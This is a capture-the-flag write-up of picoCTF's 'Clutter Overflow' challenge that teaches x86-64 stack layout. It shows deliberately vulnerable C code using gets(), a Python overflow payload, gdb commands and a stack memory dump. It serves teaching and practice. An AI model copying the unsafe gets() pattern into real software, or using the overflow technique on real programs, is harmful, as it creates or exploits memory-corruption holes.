



# Clutter Overflow: Understanding Stack Layout and Exploiting Buffer Overflow

## Introduction 📚
[In this challenge](https://play.picoctf.org/practice/challenge/216?category=6&page=1), picoCTF provides a binary and source code.
The source code is not necessarily required since the process of reversing and tackling the challenge is quite straightforward.  

Buffer overflow vulnerabilities can pose a significant risk to software security. In this blog post, we will explore the concept of buffer overflow through the context of the "Clutter Overflow" challenge from picoCTF. We will dissect the provided code, understand the stack layout, and demonstrate how to exploit a buffer overflow to achieve the desired goal.

## Understanding the Challenge 🤔
The "Clutter Overflow" challenge presents us with a binary file and its corresponding source code. The goal is to reach a specific condition within the code by modifying a variable called code. However, conventional methods of modifying the code variable are restricted. We will leverage a buffer overflow vulnerability to manipulate the program's behavior and reach the desired condition.

Although this challenge is pretty it can be a good example to demonstrate the stack layout.

## Analyzing the Code 🔬
Let's take a closer look at the provided code to understand the vulnerability and the desired condition:
```C
#include <stdio.h>
#include <stdlib.h>

#define SIZE 0x100
#define GOAL 0xdeadbeef

const char* HEADER = "Irrelevant ASCII art";

int main(void)
{
  long code = 0;
  char clutter[SIZE];

  setbuf(stdout, NULL);
  setbuf(stdin, NULL);
  setbuf(stderr, NULL);
 	
  puts(HEADER); 
  puts("My room is so cluttered...");
  puts("What do you see?");

  gets(clutter);


  if (code == GOAL) {
    printf("code == 0x%llx: how did that happen??\n", GOAL);
    puts("take a flag for your troubles");
    system("cat flag.txt");
  } else {
    printf("code == 0x%llx\n", code);
    printf("code != 0x%llx :(\n", GOAL);
  }

  return 0;
}

```

Obviously we need to get into this condition:
```C
if (code == GOAL)
```

## Exploiting the Buffer Overflow 💣
To exploit the buffer overflow vulnerability in the "Clutter Overflow" challenge, we need to understand the stack layout and overwrite the code variable with the value 0xdeadbeef.

### Identifying Stack Layout 🔍

Analyzing the code in a ghidra, we observe that the buffer clutter starts at an offset of -0x118 from the base pointer (rbp). The variable code is located at an offset of -0x10 from the base pointer. Understanding this layout is crucial for exploiting the buffer overflow.

### Generating an Input 📥
To trigger the buffer overflow, we can generate an input string that overflows the clutter buffer and overwrites the code variable. For example, we can create a payload using Python:
```python 
>>> "A" * 264 + "B" * 8
'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBB'
```
Let's overflow the buffer and see what happens.
```bash
gdb ./chall
```
Set break point right after where the overflow occured. 

```bash
b *0x0040075a
```

Execute the program and use our generated string as input. Next, we will analyze the stack. To examine the stack, we will begin by printing the contents of the $rsp register.
```bash
x/64gx $rsp
```
```
0x7fffffffd850: 0x4141414141414141      0x4141414141414141
0x7fffffffd860: 0x4141414141414141      0x4141414141414141
0x7fffffffd870: 0x4141414141414141      0x4141414141414141
0x7fffffffd880: 0x4141414141414141      0x4141414141414141
0x7fffffffd890: 0x4141414141414141      0x4141414141414141
0x7fffffffd8a0: 0x4141414141414141      0x4141414141414141
0x7fffffffd8b0: 0x4141414141414141      0x4141414141414141
0x7fffffffd8c0: 0x4141414141414141      0x4141414141414141
0x7fffffffd8d0: 0x4141414141414141      0x4141414141414141
0x7fffffffd8e0: 0x4141414141414141      0x4141414141414141
0x7fffffffd8f0: 0x4141414141414141      0x4141414141414141
0x7fffffffd900: 0x4141414141414141      0x4141414141414141
0x7fffffffd910: 0x4141414141414141      0x4141414141414141
0x7fffffffd920: 0x4141414141414141      0x4141414141414141
0x7fffffffd930: 0x4141414141414141      0x4141414141414141
0x7fffffffd940: 0x4141414141414141      0x4141414141414141
0x7fffffffd950: 0x4141414141414141      0x4242424242424242
0x7fffffffd960: 0x0000000000400700      0x00007ffff7a03c87
```
And that's the intriguing part. By observing, we can notice that 0x42 is located at higher memory addresses. As the buffer fills up, the memory addresses ascend. However, the closer we approach the higher addresses, the closer we get to the beginning of the stack. This interestingly indicates that the stack is somewhat inverted. To visualize this concept more clearly, let's take a look at a diagram.
I took the picture from [here](https://eli.thegreenplace.net/2011/09/06/stack-frame-layout-on-x86-64)


Local variables are defined at $rbp - x, and the arguments passed to the function are pushed onto the stack ($rbp + y)before the function is called.

In summary, the buffer starts at -0x118, and as we fill it, we approach -0x10. At this point, we can overwrite it with the value 0xdeadbeef and successfully conquer this challenge.

Thanks for reading.
